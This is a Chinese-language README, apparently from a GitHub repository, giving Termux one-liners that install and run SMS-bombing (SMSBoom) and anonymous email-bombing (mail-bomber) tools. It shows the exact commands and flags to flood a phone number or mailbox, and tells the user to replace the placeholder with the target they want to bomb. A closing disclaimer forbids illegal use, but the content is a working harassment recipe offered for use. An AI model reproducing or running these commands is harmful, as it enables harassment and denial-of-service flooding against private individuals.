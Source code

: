   ## 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
- 
  ## 一键代码使用
  ### 短信轰炸
  `pkg install git && pkg install python && pkg install openssl &&  git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ### 邮箱轰炸（匿名但无法指定内容）
 `pkg install git && pkg install php && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber `
 

 
更新接口（可选）
`php index.php update-nodes`

后续使用
`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱


  ### 邮箱轰炸 (不匿名但可以指定内容)


## 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


